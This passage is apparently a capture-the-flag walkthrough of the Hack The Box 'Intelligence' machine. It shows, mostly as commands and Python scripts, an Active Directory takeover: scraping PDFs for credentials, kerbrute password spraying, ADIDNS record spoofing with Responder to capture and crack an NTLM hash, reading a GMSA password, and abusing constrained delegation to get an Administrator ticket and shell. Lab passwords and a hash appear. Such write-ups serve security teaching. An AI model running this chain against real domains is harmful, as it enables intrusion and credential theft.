

No luck here as well 😟

let’s back to our HTTP, server and start deep enumeration on it, this time we try to find documents inside /documents folder

i first download pdf files and use exiftool on both and here’s what i found





we found 2 user’s so it’s confirmed that the Creator names is the name of users, but now we need to guess the PDF file names i used python script for it and there were many pdf files so i added one more thing into my pdf file to search for username and password in the PDF files

```bash
import requests
from datetime import datetime, timedelta
import io
from PyPDF2 import PdfReader

# Settings
base_url = "http://10.10.10.248/documents/"  # Replace with actual base URL
start_date = datetime(2020, 1, 1)
end_date = datetime(2020, 12, 31)

keywords_to_search = ["username", "password"]  # Add more if needed

# Check each date-based PDF
current_date = start_date
while current_date <= end_date:
    filename = current_date.strftime("%Y-%m-%d-upload.pdf")
    full_url = f"{base_url}{filename}"

    try:
        response = requests.get(full_url)
        if response.status_code == 200:
            print(f"✅ Downloaded: {filename}")

            # Load PDF from memory
            pdf_file = io.BytesIO(response.content)
            reader = PdfReader(pdf_file)
            text = ""
            for page in reader.pages:
                text += page.extract_text() or ""

            # Search for keywords
            found = False
            for keyword in keywords_to_search:
                if keyword.lower() in text.lower():
                    print(f"🔍 Keyword '{keyword}' found in {filename}")
                    found = True
            if not found:
                pass
        else:
            pass
    except Exception as e:
        print(f"⚠️ Error with {filename}: {e}")

    current_date += timedelta(days=1)

```

and while running the script we found the PDF with username and password keyword



let’s read the PDF 2020-06-04-upload.pdf, as our script saving pdf file in memory so it will not download in memory so we need to download that file using wget

```bash
wget http://10.10.10.248/documents/2020-06-04-upload.pdf
```



but we don’t have the username, as we know that the exifdata of PDF file contains the usernames

i created another script to extract creator name from PDF’s exif data

```bash
import requests
import io
from PyPDF2 import PdfReader
from datetime import datetime, timedelta

# Settings
base_url = "http://10.10.10.248/documents/"  # ← Replace with your actual base URL
start_date = datetime(2020, 1, 1)
end_date = datetime(2020, 12, 31)

output_file = "users.txt"

with open(output_file, "w", encoding="utf-8") as file_out:
    current_date = start_date
    while current_date <= end_date:
        filename = current_date.strftime("%Y-%m-%d-upload.pdf")
        full_url = f"{base_url}{filename}"

        try:
            response = requests.get(full_url)
            if response.status_code == 200:
                pdf_data = io.BytesIO(response.content)
                reader = PdfReader(pdf_data)

                metadata = reader.metadata
                creator = metadata.get("/Creator", "❓ Not specified")

                file_out.write(f"{creator}\n")
                print(f"[+] {filename} -> Creator: {creator}")
            else:
                pass
        except Exception as e:
            print(f"[!] Error with {filename}: {e}")

        current_date += timedelta(days=1)

print(f"\n[+] Done! Saved results to {output_file}")
```

and then run the python script



first we’ll remove any duplicates from the list

```bash
cat users.txt|sort -u |wc -l
```



we can sse that there’s 30 unique users

i verified all users names using kerbrute

```bash
kerbrute userenum --dc 10.10.10.248 -d intelligence.htb users.txt
```

and found all are the valid users

we’ll perform passwordspray attack on these usernames with password we’ve got earlier

```bash
kerbrute passwordspray  --dc dc.intelligence.htb -d intelligence.htb users.txt NewIntelligenceCorpUser9876
```



great we got valid credentials in our hands, let’s check if we can access any shares using with it using netexec

```bash
sudo nxc smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares
```



we can see that we have READ access to IT and Users share, let’s first connect to IT share

```bash
smbclient //10.10.10.248/IT -U Tiffany.Molina%NewIntelligenceCorpUser9876
```



after logining-in i found powershell script, i downloaded using `get` command

let’s read downdetector.ps1



nothing interesting here, let’s connect to users share, and we can download user.txt from 

```bash
get Tiffany.Molina\Desktop\user.txt
```

### Release The Hounds :  Bloodhound

let’s run bloodhound with valid credentials to get full picture of Domain

```bash
bloodhound-python -c all -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -d intelligence.htb -dc dc.intelligence.htb -ns 10.10.10.248
```



after loading the gathered data to bloodhound i found the Shortest path to Domain Admins



But here if we see we need access to Ted.Graves user, so what we’ve so far is the script from IT Share, let’s examine that script

```bash
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

so this script is running every 5 minutes, it takes all records from Domain and check for only starting with web, then it makes request to record name with their credentials, if status not equal to 200 (OK) then it sends email to them selves with subject Host is down

so now possibly we need to enter our malicious record to the Domain and point it to our responder server

https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/adidns-spoofing

```bash
python ~/offsec/tools/krbrelayx/dnstool.py -u 'intelligence\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -a add -r "web-0xh3x" -t A -d "10.10.14.15" 10.10.10.248
```



we’ve added record to DNS server now we start our responder and wait for script to execute

```bash
sudo responder -I tun0
```

after 5 minutes we got the NTLM hash of the user



let’s crack it using hashcat 

```bash
hashcat -m 5600 ted_graves.ntmlv2 /usr/share/wordlists/rockyou.txt
```



and we got the password `Mr.Teddy`

now let’s begin our journey to Domain Admin

first we can see that Ted.Graves is member of IT support group



and the IT Support group has ReadGMSA permission over svc_int$ user



let’s use the netexec to read GMSA (Group Managed Service Account password)

```bash
sudo nxc ldap 10.10.10.248 -u ted.graves -p Mr.Teddy --gmsa
```



now  we have the NTLM hash of the svc_int$, next step is svc_int$ has AllowedToDelegate Permission on DC machine



we can obtain Service ticket as Administrator

```bash
getST.py -spn 'www/dc.intelligence.htb' -impersonate 'administrator' -hashes :9db7142ffb1a5550533f64941ac4a37b 'intelligence.htb/svc_int$' -dc-ip 10.10.10.248
```



let’s export KRB5CCNAME 

```bash
export KRB5CCNAME=administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```

let’s login using wmiexec

```bash
wmiexec.py -k -no-pass administrator@dc.intelligence.htb
```

